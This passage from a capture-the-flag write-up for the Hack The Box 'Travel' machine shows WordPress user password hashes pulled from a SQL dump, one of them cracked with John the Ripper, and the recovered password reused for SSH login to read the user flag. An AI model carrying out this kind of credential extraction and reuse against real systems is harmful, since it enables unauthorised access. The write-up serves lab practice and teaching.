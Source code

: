 ```bash
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/ | admin         | admin@travel.htb | http://localhost | |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+------------------+------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.001 sec)
```
After attempting to try and crack it it didnt crack. Turns out it cant and this part was not needed but i thought i would share it anyway.
After some more enumeration we come accross an sql  file, we cat this and find credentials inside
```sql
LOCK TABLES `wp_users` WRITE;
/*!40000 ALTER TABLE `wp_users` DISABLE KEYS */;
INSERT INTO `wp_users` VALUES (1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
/*!40000 ALTER TABLE `wp_users` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
```
A hash yay.
This however does indeed crack with john and we get the password `1stepcloser`
so we now have the credentials `lynik-admin:1stepcloser`

# User.txt

And we manage to login in ssh and read the user flag.
```bash
┌──(kali㉿kali)-[~/htb/boxes/travel]
└─$ ssh lynik-admin@travel.htb
lynik-admin@travel.htb's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Wed 09 Sep 2020 04:32:14 PM UTC

  System load:                      0.06
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     12%
  Swap usage:                       0%
  Processes:                        201
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

Last login: Wed Sep  9 16:31:53 2020 from 10.10.14.14
lynik-admin@travel:~$ cat user.txt
b349da48ec0{...}
```
